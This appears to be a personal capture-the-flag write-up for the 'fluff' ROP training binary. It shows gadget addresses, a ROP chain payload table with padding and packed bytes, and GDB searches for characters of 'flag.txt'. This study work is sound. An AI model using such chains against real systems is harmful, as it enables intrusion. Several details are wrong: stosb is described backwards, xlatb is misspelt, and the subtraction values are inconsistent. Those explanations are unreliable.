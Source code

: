 3. address `0x00400639`
	- `stosb byte [rdi], al;` -> it tales data from `[rdi]` and puts it into `al` register, then it increment `rdi` value.
	- `ret;`

We have control over `al` with *1* and *3*, over `rdx, rdx, rcx` with *2* but we cant controll `rdi`, so we run `ropper --file "fluff" --search 'pop'` and we find:

`0x00000000004006a3: pop rdi; ret;`

### Controlling RBX
we also have to notice the magic value `0x3ef2` added to `rcx` in *3*
in the first part of the ropchain with *2* we'll write "deadbeefdeadbeef" into `rbx`, to do it we must subtract `0x3ef2` to `beef`  to get: `deadbeeddead7f7d` then reverse the endianess of the string, this will go into `rcx` and then into `rbx`.
We obvisuly must change `deadbeefdeadbeef` with what we want into rbx for our ropchain.

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00""|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `0xdeadbeeddeadbeef - 0x3ef2` | "\x7d\x7f\xad\xde\xef\xbe\xad\xde" |

### Controlling AL
After managed `RBX` we can now use `xlab ->  al = [rbx + unsigned_al]` putting into rb `VALUE - unsigned_al`

we must put in al one value at a time until we have "flag.txt", but in order to do this, we must find the characters inside memory, because `[rb + unsigned_al]` is an address. 

We also need to know starting `al`, we can use `info register al` before `xlab` to get it: `0x0b`.
 
So, inside GDB we can use `info proc mapping` to find starting and ending address of the process "./fluff", then we can use gdb's `find "<string> start end"` utility to search for a string inside the range.

![[fluff2]]

Here is how we search for 'f = \x66' character:

![[fluf3]]

Afll address are: 

- 'f' -> `0x7ffff7bee42c`
- 'l' -> `0x7ffff7beea04`
- 'a' -> `0x7ffff7bee259`
- 'g' -> `0x7ffff7beeac0`
- '.' -> `0x7ffff7bf0878`
- 't' -> `0x7ffff7bee23a`
- 'x' -> `0x7ffff7bee8d4`
